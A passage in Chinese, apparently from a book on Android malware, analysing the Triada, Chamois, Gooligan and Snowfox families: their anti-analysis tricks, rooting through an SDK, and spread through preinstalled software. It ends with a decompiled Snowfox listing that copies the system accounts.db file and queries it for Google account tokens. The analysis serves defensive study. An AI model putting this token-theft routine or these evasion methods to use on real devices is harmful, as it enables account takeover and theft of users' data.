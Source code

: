 Triada 的历史至少可以追溯到 2014 年 9 月，当时一个名为*com.untory.run1*（v1，251c）的样本首次出现。这个应用很容易理解，因为它使用了很少的防御技术。Java 包*security.**、*tools.**和*util.**包含了 Triada 代码的核心。唯一的混淆尝试是几个加密字符串，应用在运行时会通过嵌入的本地代码函数*libhzwtool.so*解密这些字符串。像本章前面描述的 Mono WAP 欺诈家族使用.NET 一样，使用本地库中的代码可以绕过仅分析 Java 代码的应用扫描工具。为了躲避这些有限的工具，Triada 的作者故意使用了本地代码作为反分析手段；而字符串解密函数并没有包含任何无法用 Java 实现的行为。

作为输入，字符串解密算法接受一个十六进制字符串和两个 16 字节的密钥。然后，它将密文的每个字节与两个密钥的相应字节进行异或（XOR）操作。两个密钥从资产文件*assets/hzwLib*的偏移地址 0x08 和 0x18 读取。多年来，Triada 一直将加密密钥隐藏在资产文件中，并使用简单的双异或解密算法，使新样本容易被识别。

对于其 rooting 能力，*com.untory.run1*（v1，251c）样本使用了 EasyRoot。这是由中国科技巨头百度开发的 Android SDK，包含了不同设备的 root 漏洞，并且可以自由供 Android 开发者嵌入他们的应用程序中。Triada 将 root 漏洞存储在*com.baidu.easyroot*包中。

我们认为，转向制造商渗透的原因部分是因为 Android 设备变得越来越难以获取 root 权限。我们从未看到这些中国网络部署过零日 rooting 能力，这表明他们之前依赖于别人开发的 root 漏洞。2015 年之后，公开的 root 漏洞变得极为稀少，发布之间可能会有多年间隔。由于等待时间过长，恶意软件开发者很可能不得不寻找其他方式来获取特权系统访问权限。

渗透设备制造商还有其他好处。预安装的软件可以进行即使是根权限漏洞也无法修改的设备修改，例如对安全设置（如 SELinux）的更改。此外，获得大量安装基础也变得更加容易：恶意软件分发者只需欺骗一家企业将他们的恶意软件安装到成千上万的设备上。这比向单个 Android 用户宣传产品，并希望他们选择安装它，任务要容易得多！这些优势帮助预安装恶意软件在 2015 年得到了广泛传播。

#### ***Chamois***

继 Triada 之后，Chamois 可能是 2018 年最具影响力的僵尸网络。Android 安全团队在 2017 年 3 月首次在一篇名为《检测并消除 Chamois：Android 上的欺诈僵尸网络》的博客中公开描述了它，它的起源可以追溯到 2014 年 11 月。

Chamois 在多个方面改进了 Triada，最显著的改进是引入了复杂的反分析功能。它包括几层比 Triada 复杂得多的加密本地代码，并隐藏至少 45 个环境检查，用于判断它是否运行在模拟环境中或是否受到安全研究人员的分析。尽管许多 Android 恶意软件样本已经具备类似的检查，但当时 45 个检查的数量是非常突出的。Android 安全团队在 2018 年《病毒公告》论文《解包打包解包器：逆向分析 Android 反分析本地库》中进一步讨论了这些特性。

Chamois 还是一个早期的恶意软件例子，它从使用 Google Play 作为感染途径转向了预安装在用户设备上的方式。在 Android 安全团队在 2017 年首次从 Google Play 中移除所有 Chamois 应用后，Chamois 的开发者开始联系 Android 设备制造商。官方上，他们提供了一种移动支付解决方案，但这个解决方案包含了隐藏的代码，用来下载和执行恶意功能，例如广告或短信欺诈。

#### ***Gooligan 和 Snowfox***

来自中国的另外两个 Android 恶意软件家族——Gooligan 和 Snowfox，在 2015 年和 2016 年侵入了数百万个 Google 账户。与其通过钓鱼攻击获取用户的 Google 账户凭证，这些恶意软件家族从 Android 操作系统的受保护部分窃取了 Google 账户令牌。这些账户令牌使盗贼能够完全控制受害者的账户。例如，他们可以登录受害者的 Gmail 账户，下载其 Google Drive 中的文件，或者查看他们保存在 Google Photos 中的照片。

常规应用无法访问存储 Google 账户访问令牌的操作系统区域。为了窃取令牌，第三方应用需要通过漏洞提升其权限，或者预装时已经获得了提升的权限。Gooligan 做到了这两点。正如 Check Point 在 2016 年 11 月的《超过 100 万 Google 账户被 Gooligan 入侵》报告中所描述的，Gooligan 使用了多个漏洞将其常规应用权限提升为 root 权限。它收集了设备配置的信息，将其发送到指挥与控制服务器，并下载了专门针对指纹识别设备类型的利用插件。

Snowfox，因其特有的 *com.snowfox* 包名而得名，是一个在 Gooligan 后被发现的 SDK。与 Gooligan 不同，它并没有下载利用插件以获取设备的 root 权限。相反，它预装在设备上，或者如果通过侧载安装，则依赖于设备已经被 root。Snowfox 极其强大，拥有一个广泛的插件系统，可以从其指挥与控制服务器下载额外的代码。我们已经观察到超过 30 个不同的插件文件，功能包括窃取 Google 账户令牌、广告欺诈或下载和安装更多应用。Android 安全团队首次在 *2018 Android 安全年度回顾* 报告中描述了 Snowfox。

Snowfox 应用的一个示例是 *com.zg.magicDrop* (v1, 9097)。该应用通过加密通道与其指挥与控制服务器通信后，下载恶意功能的插件，如 *snowfox*_*v19n.jar*。这个插件代码没有经过复杂的混淆。例如，列表 2-16 显示了用来窃取 Google 账户令牌的功能。它首先将账户数据库复制到另一个位置，然后使用 SQLite 命令从数据库中提取令牌。

```
com.snowfox.core.dy.util.DebugTool.info(
  com.snowfox.core.dy.util.GpAccount.TAG,
  new StringBuilder().append("ngPref.getIsRootToken()===")
    .append(v4_0.getIsRootToken()).toString());

if (v4_0.getIsRootToken()) {
  String v0_0 = com.snowfox.core.dy.util.GpAccount.copyConfigDb2SD(
    context, "/data/system/users/", v11_1, "accounts.db");
  v10_1.put(v0_0, com.snowfox.core.dy.util.GpAccount.readUserTokenNew(
    context, v0_0));
...
  android.database.Cursor v11_0 = v4_0.rawQuery(
  new StringBuilder().append(
    "select type, authtoken from authtokens where type " +
    " like 'com.android.vending%:androidmarket' and accounts_id=")
    .append(v1_0).toString(), 0);
```
